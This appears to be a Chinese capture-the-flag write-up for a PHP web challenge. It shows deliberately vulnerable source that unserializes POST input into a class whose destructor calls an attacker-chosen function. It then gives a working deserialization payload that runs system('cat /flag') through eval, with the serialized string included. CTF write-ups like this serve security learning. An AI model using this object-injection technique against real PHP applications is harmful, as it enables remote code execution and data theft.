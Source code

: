 # 原神！启动？

难度：**

## 解题过程

首先启动原神，然后跳转到了start_game.php

显示一张图片，以及提示你确定这里就是真正的入口吗？

信息搜集

在cookie中找到字段   entrance = /fl444444g.php

访问，有反序列化：

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

class Genshin_impact
{
    public $url="https://www.yuanshen.com/";
    public $element;
    public $skill;

    public function __destruct()
    {
        $role=$this->element;
        $role($this->skill);
    }
}
$payload=$_POST['payload'];
unserialize($payload);

?>
```

构造命令执行：

payload

```php
<?php

class Genshin_impact
{
    public $url="https://www.yuanshen.com/";
    public $element = "eval";
    public $skill = 'system("cat /flag");';

    public function __destruct()
    {
        $role=$this->element;
        $role($this->skill);
    }
}
$a = new Genshin_impact();
echo serialize($a);
// O:14:"Genshin_impact":3:{s:3:"url";s:25:"https://www.yuanshen.com/";s:7:"element";s:4:"eval";s:5:"skill";s:20:"system("cat /flag");";}
?>
```

